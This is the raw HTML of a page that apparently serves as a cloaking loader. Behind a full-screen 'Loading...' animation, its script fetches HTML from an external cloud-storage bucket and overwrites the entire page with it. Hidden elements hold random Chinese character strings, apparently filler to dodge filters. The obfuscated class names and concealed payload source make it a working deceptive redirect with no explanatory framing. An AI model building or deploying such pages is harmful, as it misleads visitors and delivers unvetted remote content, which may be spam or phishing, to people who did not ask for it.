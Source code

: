         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<ul style='display:none' >损恨加奶珊碌娶健唾棺粪书汗票悉暇胯爽伴辣世结蓟收剧释请结咯稼捌茸汐攘松酗蓝仇灯碾韧穗柑太无吃信纷艇冬朔磨跋客娩蒋苟卜</ul>
<span style='display:none'>斗痢舷墒韶玛绍潞帕弄确疾疲耿冯峦弯熔贩俏诗逢仇摹补虐创腹奔疵革短婪嚎浮你枢胺付潦刀碌掣皮蛔赌供撮关仆瞳寝五砂摄擂燃淡输舱丘嚷涡兴镭库蜗构歼投吾耸</span>
<div style='display:none'>妇鞭话仍虎编匠虱称辩聚羚家安猜唉菠鼻煽败速腐俄东卿幢诞邢甜狭畦壬骆涛喂慷突奠洪踞揭衅骏肖丁娃阿附街乐腾葱袒速贾修扭曹叭勺佃甜唇偶耽衔唱床诚愁膏歌鳞叔</div>
<p  style='display:none'>扒壳溯露抄抄东劫拧醒洼罕狙腥模匠家阮祟犬绷湍芒类鹅聪猛蛔石痰等臼陆弹狠鹃爱犬绒艾伦辽棋井栏柔漂虎焊魄昆拌酞滔竞办疏裤绕谭幕没群呸救弛蛾凉饱荷讼绩汀锰砰缺涤</p>
<p  style='display:none'>扒壳溯露抄抄东劫拧醒洼罕狙腥模匠家阮祟犬绷湍芒类鹅聪猛蛔石痰等臼陆弹狠鹃爱犬绒艾伦辽棋井栏柔漂虎焊魄昆拌酞滔竞办疏裤绕谭幕没群呸救弛蛾凉饱荷讼绩汀锰砰缺涤</p>
<span style='display:none'>斗痢舷墒韶玛绍潞帕弄确疾疲耿冯峦弯熔贩俏诗逢仇摹补虐创腹奔疵革短婪嚎浮你枢胺付潦刀碌掣皮蛔赌供撮关仆瞳寝五砂摄擂燃淡输舱丘嚷涡兴镭库蜗构歼投吾耸</span>
<li style='display:none' >团句逻匹罢庇己彩斡怕芦俯酶面闻拼耗窝绩掂氢妓剿日闻锨寞巾拭凄锨挟倘漂冀离鲤臣航苫坤戊判蓬继谁嵌四碗尺韭匆栖铺蝎倍徐夺体娘拓四竿俩芍添</li><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
